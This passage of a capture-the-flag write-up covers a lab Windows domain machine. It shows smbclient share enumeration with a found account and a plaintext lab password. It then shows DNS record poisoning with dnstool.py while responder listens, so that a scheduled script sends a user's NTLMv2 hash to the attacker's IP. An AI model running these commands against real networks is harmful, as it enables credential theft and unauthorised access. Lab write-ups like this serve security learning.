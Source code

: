 ![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250918192936.png)

and we got a hit, finally.

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250918193130.png)

We have access to few shares will check IT and Users
Had some trouble with checking smb via nxc so I switched to good old friend smbclient

```
smbclient \\\\10.10.10.248\\IT -U Tiffany.Molina
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250918193441.png)

```
smbclient \\\\10.10.10.248\\Users -U Tiffany.Molina
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250918193803.png)

it looks like share on c:/users
We can take first flag from here

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250918194022.png)

## Privilege Escalation

In IT share we also find custom script downdetector.ps1 
Script runs every 5min and grab list of computers starting with "web*" it will try to iwr and if status won't be 200 it will email Ted.Graves

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250918194208.png)

And now I stuck, checked 0xdf writeup and figure out how to move. 
We need to capture ted graves ntmlv2 hash via dnstool.py
https://github.com/dirkjanm/krbrelayx

Start responder in 1 window

```
responder -I tun0 -A
```

and run script in second

```
python3 dnstool.py -u intelligence\\Tiffany.Molina -p NewIntelligenceCorpUser9876 --action add --record web-karon --data 10.10.14.13 10.10.10.248
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250918195424.png)

Now we need to wait max to 5min to get a hash

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250918195525.png)
